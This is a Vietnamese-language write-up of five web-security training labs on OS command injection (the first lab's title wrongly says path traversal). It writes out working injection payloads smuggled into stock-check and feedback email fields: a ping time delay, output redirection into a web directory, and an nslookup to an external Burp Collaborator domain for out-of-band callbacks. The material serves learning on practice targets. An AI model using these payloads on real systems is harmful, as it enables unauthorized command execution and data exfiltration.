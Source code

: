 # Số bài giải / Tổng số: 5/5
# **1. Lab: File path traversal, simple case**
> Mô tả nói rằng bài lab chứa lỗ hổng OS command injection ở phần kiểm tra số lượng hàng trong kho.
![image](https://hackmd.io/_uploads/rkiWf79g0.png)

>Truy cập và dùng thử chức năng `Check stock` của trang web và quan sát request trong HTTP History:
![image](https://hackmd.io/_uploads/rycUNQqgR.png)

>Thấy có 1 request với method POST tới server, ta sẽ đi phân tích request này: ![image](https://hackmd.io/_uploads/BkkdrmceA.png)

>Request này sẽ truyền đi 2 tham số `productID` và `storeID` để yêu cầu và server sẽ trả về số lượng để render lên hiển thị:
>![image](https://hackmd.io/_uploads/rJaBIX5lR.png)

>Thêm `echo 123;` vào sau 2 tham số này để test, và phản hồi nhận lại được nhưng không hiển thị ra kết quả mong muốn: ![image](https://hackmd.io/_uploads/Hyv3FQqlA.png)

>Nghi ngờ rằng server không lọc đầu vào khi xử lí. Thử đổi `&` thành `||` và gửi lại và nhận được phản hồi: ![image](https://hackmd.io/_uploads/Hy38cmceA.png)

>Thông báo lỗi cho ta biết rằng ta thực thi lệnh shell thành công! Bây giờ thì đổi payload thành `whoami` theo yêu cầu đề bài: ![image](https://hackmd.io/_uploads/By98j79xA.png)

>Màn hình không hiển thị kết quả của `whoami` nhưng bên phía lab thông báo đã hoàn thành bài lab => chứng tỏ đã thực thi lệnh thành công!![image](https://hackmd.io/_uploads/B1sts7cgC.png)

# **2. Lab: Blind OS command injection with time delays**
>  Mô tả nói rằng bài lab chứa lỗ hổng OS command injection ở chức năng feedback. Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Nhiệm vụ của chúng ta là khai thác lỗ hổng này và làm cho phản hồi bị delay 10 giây: 
![image](https://hackmd.io/_uploads/Sy4Ky8ceR.png)

>Truy cập bài lab và có phần **"Submit feedback"** : ![image](https://hackmd.io/_uploads/SJS5WL5g0.png)

>Thử điền giá trị ngẫu nhiên và submit feedback, quan sát bên HTTP History có 1 request với method **POST** đươc gửi đi:
![image](https://hackmd.io/_uploads/B19bMUqeR.png)

> Theo đề bài. ứng dụng phía máy chủ sẽ tạo một email gửi đến quản trị viên trang web chứa phản hồi. Để thực hiện việc này, nó gọi tới chương trình thư với các chi tiết đã gửi, có dạng như sau:
> `mail -s "test" -aFrom:ducanh@gmail.com feedback@vulnerable-website.com
`
>Có thể thấy rằng ở phần nhập email, ta có thể chèn vào đó lệnh tùy ý...Vì đầu ra của lệnh `mail` sẽ không trả về trong phản hồi của server nên ta không dùng `echo` được. Thay vào đó, để đáp ứng yêu cầu đề, ta có thể chèn lệnh `ping` với cú pháp payload mới như sau: 
> `mail -s "test" -aFrom:ducanh@gmail.com || ping -c 10 127.0.0.1 || feedback@vulnerable-website.com`
> Khi đó, server sẽ thực hiện ping 10 lần đến địa chỉ localhost và từ đó khiến response trả về sau 10 giây.

> Thực hiện URL-encode payload: ![image](https://hackmd.io/_uploads/BJ4O4I5g0.png)

>Sửa đổi input email trong Repeater và Send: ![image](https://hackmd.io/_uploads/HyJjE8qxR.png)

>Server trả về respone **"200 OK"** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/S1ufSIqeA.png)

# **3. Lab: Blind OS command injection with output redirection**
>Mô tả nói rằng bài lab chứa lỗ hổng OS command injection ở chức năng feedback. Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Nhiệm vụ của chúng ta là chuyển hướng được kết quả vào 1 thư mục được cấp quyền ghi `/var/www/images` và tiến hành đọc nội dung của lệnh `whoami` trong thư mục đó để hoàn thành bài lab: 
![image](https://hackmd.io/_uploads/HytABLqgR.png)

>Tiếp tục và phần submit feedback của người dùng như lab trước:
>![image](https://hackmd.io/_uploads/ryHD8U5eR.png)

>Tiến hành inject vào input email được gửi đi, tiến hành ghi nội dung của `whoami` vào trong thư mục `/var/www/images` bằng payload: 
>`ducanh@gmail.com || whoami > /var/www/images/output.txt ||`

>Tiến hành URL-encode payload: ![image](https://hackmd.io/_uploads/HyFrO89xC.png)

>Sửa đổi giá trị email trong request **POST** gửi đi, và nhận được phản hồi **"200 OK"** tức là đã thành công:
>![image](https://hackmd.io/_uploads/SyH5OIcxA.png)
 
> Cuối cùng là vào 1 request fetch ảnh từ server bất kì, sửa đổi giá trị `filename` để trỏ tới file `output.txt` mà ta vừa tạo: ![image](https://hackmd.io/_uploads/B1z1KUcxR.png)

>Nhận được phản hồi **"200 OK"** cùng với nội dung file là tên người dùng hiện thời! Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/SJCmFUcgA.png)

# **4. Lab: Blind OS command injection with out-of-band interaction**
>Mô tả nói rằng bài lab chứa lỗ hổng OS command injection ở chức năng feedback. Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Và việc thực hiện ghi output lên 1 địa chỉ mong muốn cũng không khá thi. Tuy nhiên, ta có thể sử dụng kĩ thuật tương tác ngoài băng tần với 1 external domain, cụ thể là Burp Collaborator:
![image](https://hackmd.io/_uploads/ryUPFU9x0.png)

>Truy cập bài lab và thấy có chức năng "Submit feedback": ![image](https://hackmd.io/_uploads/H1nKjU9x0.png)

>Thử điền giá trị ngẫu nhiên và submit, quan sát thấy 1 request với method **POST** được gửi đi, kèm theo các giá trị ta vừa nhập: 
>![image](https://hackmd.io/_uploads/HyglhL9eC.png)

>Tiến hành inject vào input email được gửi đi như các lab trước, thực hiện tra cứu DNS cho mạng external của ta bằng payload: 
>`|| nslookup eo641iitiax0b1fejep34l3zoquhi76w.oastify.com ||`

>Thực hiện URL-encode cho payload: ![image](https://hackmd.io/_uploads/SyiyTU5x0.png)

>Trong Repeater, sửa đổi input email và thực hiện Send: ![image](https://hackmd.io/_uploads/HyJMTI5eA.png)

>Server phản hồi **"200 OK"**, đồng thời bên phía Burp Collaborator cũng nhận được các request tra cứu gửi tới: ![image](https://hackmd.io/_uploads/SJePTL9eC.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/rkTDTIqe0.png)

# **5. Lab: Blind OS command injection with out-of-band data exfiltration**
> Mô tả nói rằng bài lab chứa lỗ hổng OS command injection ở chức năng feedback. Ứng dụng thực thi lệnh shell chứa các chi tiết do người dùng cung cấp. Đầu ra từ lệnh không được trả về trong phản hồi. Và việc thực hiện ghi output lên 1 địa chỉ mong muốn cũng không khá thi. Tuy nhiên, ta có thể sử dụng kĩ thuật tương tác ngoài băng tần với 1 external domain, cụ thể là Burp Collaborator. Để hoàn thành bài lab, ta phải thực thi được lệnh `whoami` để lấy được tên người dùng hiện thời và submit:
![image](https://hackmd.io/_uploads/B13jaL5lA.png)

>Truy cập bài lab và thấy có chức năng "Submit feedback":
>![image](https://hackmd.io/_uploads/SJCNxwclA.png)

>Thử điền giá trị ngẫu nhiên và submit, quan sát thấy 1 request với method **POST** được gửi đi, kèm theo các giá trị ta vừa nhập: 
![image](https://hackmd.io/_uploads/Hk5Ogv9gA.png)

>Tiến hành inject vào input email được gửi đi như các lab trước, thực hiện tra cứu DNS cho mạng external của ta, đồng thời gửi đi cả tên user bằng payload: 
![image](https://hackmd.io/_uploads/ryBDGw9gR.png)

>Thực hiện URL-encode cho payload:![image](https://hackmd.io/_uploads/HJvVWPqgA.png)

> Trong Repeater, sửa đổi input email và thực hiện Send:![image](https://hackmd.io/_uploads/r1VvZw5xR.png)

>Server phản hồi **"200 OK"**, đồng thời bên phía Burp Collaborator cũng nhận được các request tra cứu gửi tới: ![image](https://hackmd.io/_uploads/B1Fq-vclR.png)

>Dễ dàng lấy được tên người dùng là **peter-o0tQp6**. Tiến hành submit: ![image](https://hackmd.io/_uploads/ryqR-w9gA.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/r1hkzD5x0.png)
